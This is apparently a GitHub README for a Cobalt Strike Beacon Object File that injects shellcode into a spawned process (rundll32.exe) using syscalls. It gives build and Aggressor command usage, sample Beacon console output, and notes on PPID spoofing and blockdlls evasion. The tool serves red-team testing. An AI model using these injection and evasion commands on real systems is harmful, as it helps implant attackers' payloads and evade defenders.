 ## Spawn with Syscalls Shellcode Injection BOF (64-bit only)

Same syscalls injection process as SyscallsInject but uses `BeaconSpawnTemporaryProcess` to create the target process. 

## Compile

```
make
```

## Usage

Aggressor script included with the following commands:
- `syscalls_spawn listener_name` - Injects shellcode for beacon into a spawned process. 
- `syscalls_shspawn path_to_bin` - Injects custom shellcode into a spawned process.

> NOTE: As we're using the beacon API for process spawn, we're not using syscalls, so bear that in mind. Spawning in this way does give us the spawnto, blockdlls and ppid spoof values applied. Although blockdlls currently causes the beacon launch to fail. 

### Custom shellcode
```
beacon> syscalls_shspawn C:\Users\user\Desktop\beacon64.bin
[*] Syscalls Spawn and Shellcode Injection BOF (@ajpc500)
[*] Reading shellcode from: C:\Users\user\Desktop\beacon64.bin
[+] host called home, sent: 266531 bytes
[+] received output:
Using spawnto process: C:\WINDOWS\system32\rundll32.exe
[+] received output:
Spawned Process with PID: 9968
[+] received output:
Shellcode injection completed successfully!
```

### Beacon shellcode
```
beacon> syscalls_spawn http
[*] Syscalls Spawn and Shellcode Injection BOF (@ajpc500)
[*] Using http listener for beacon shellcode generation.
[+] host called home, sent: 266531 bytes
[+] received output:
Using spawnto process: C:\WINDOWS\system32\rundll32.exe
[+] received output:
Spawned Process with PID: 9768
[+] received output:
Shellcode injection completed successfully!
```
